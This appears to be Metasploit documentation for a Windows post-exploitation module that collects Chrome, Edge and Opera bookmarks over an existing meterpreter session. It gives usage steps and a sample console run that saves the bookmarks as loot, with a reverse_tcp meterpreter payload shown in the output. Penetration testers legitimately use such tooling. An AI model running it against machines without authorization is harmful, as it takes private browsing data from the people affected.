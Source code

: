 ## Vulnerable Application

This modules retrieves stored bookmarks for Google Chrome, Microsoft Edge and Opera if the browsers exist on the target machine.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/get_bookmarks```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options


  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 11.

  ```
msf exploit(multi/handler) > use post/windows/gather/get_bookmarks
[*] Using configured payload windows/x64/meterpreter/reverse_tcp

msf post(windows/gather/get_bookmarks) > set session 3
session => 3
msf post(windows/gather/get_bookmarks) > run


[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164635_default_GoogleChrome.boo_219405.txt
[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164637_default_Opera.bookmarks_833249.txt
[-] Error loading USER S-1-5-21-1515542607-384395710-682424177-500: Profile doesn't exist or cannot be accessed
[*] BOOKMARKS FOR <user>
[*] Bookmarks stored: C:/metasploit/apps/pro/loot/20220405164640_default_Edge.bookmarks_245676.txt
[*] Post module execution completed

msf post(windows/gather/get_bookmarks) > loot

Loot
====

host             service  type                    name                                                                                 content     info                        path
----             -------  ----                    ----                                                                                 -------     ----                        ----
<ip>                       Opera.bookmarks         #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_Opera_bookmarks.txt         text/plain  Bookmarks for Opera         C:/metasploit/apps/pro/loot/20220405164430_default_Opera.bookmarks_344376.txt
<ip>                       Edge.bookmarks          #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_Edge_bookmarks.txt          text/plain  Bookmarks for Edge          C:/metasploit/apps/pro/loot/20220405164432_default_Edge.bookmarks_798475.txt
<ip>                       GoogleChrome.bookmarks  #<Msf::Sessions::Meterpreter_x64_Win:0x000001dd509f2f48>_GoogleChrome_bookmarks.txt  text/plain  Bookmarks for GoogleChrome  C:/metasploit/apps/pro/loot/20220405164427_default_GoogleChrome.boo_256524.txt

  ```
